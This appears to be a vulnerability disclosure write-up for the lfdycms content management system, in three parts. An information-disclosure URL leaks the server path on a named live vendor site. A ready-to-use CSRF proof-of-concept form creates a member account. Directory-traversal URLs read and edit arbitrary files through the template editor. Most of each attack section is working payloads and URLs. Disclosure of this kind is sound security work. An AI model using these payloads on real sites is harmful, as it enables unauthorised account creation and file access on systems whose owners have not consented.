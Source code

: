 # Information_Disclosure
Direct access to the URL: `/install.php?s=/1`, you can see the physical path leaked.

![](https://github.com/AvaterXXX/CVEs/blob/master/images/lfdycms_Information-Disclosure_1-1.png)
The CMS official website is ` http://www.lfdycms.com`,the same problem exists.

Access URL:` http://www.lfdycms.com/install.php?s=/1`

![](https://github.com/AvaterXXX/CVEs/blob/master/images/lfdycms_Information-Disclosure_1-2.png)

-----------------------------------------------------

# CSRF

poc:

```
<html>
  <body>
    <form action="http://www.a.com:83/admin.php?s=/Member/add.html" method="POST">
      <input type="hidden" name="username" value="123456" />
      <input type="hidden" name="password" value="123456" />
      <input type="hidden" name="repassword" value="123456" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

------------------------------------------------------

# Directory-Traversal
The problem connection is located at http://www.a.com:84/admin.php?s=/Template/index.html

![](https://github.com/AvaterXXX/CVEs/blob/master/images/lfdycms_Directory-Traversal_1-1.png)
Direct access to the URL:http://www.a.com:84/admin.php?s=/Template/index/path/*web*..*..*..*..*.html

![](https://github.com/AvaterXXX/CVEs/blob/master/images/lfdycms_Directory-Traversal_1-2.png)
Change the index in the URL to edit to view any file, such as 1.txt in the directory.

![](https://github.com/AvaterXXX/CVEs/blob/master/images/lfdycms_Directory-Traversal_1-3.png)
The content of 1.txt is：

![](https://github.com/AvaterXXX/CVEs/blob/master/images/lfdycms_Directory-Traversal_1-4.png)

Direct access to the URL:http://www.a.com:84/admin.php?s=/Template/edit/path/*web*..*..*..*..*1.txt.html

![](https://github.com/AvaterXXX/CVEs/blob/master/images/lfdycms_Directory-Traversal_1-5.png)
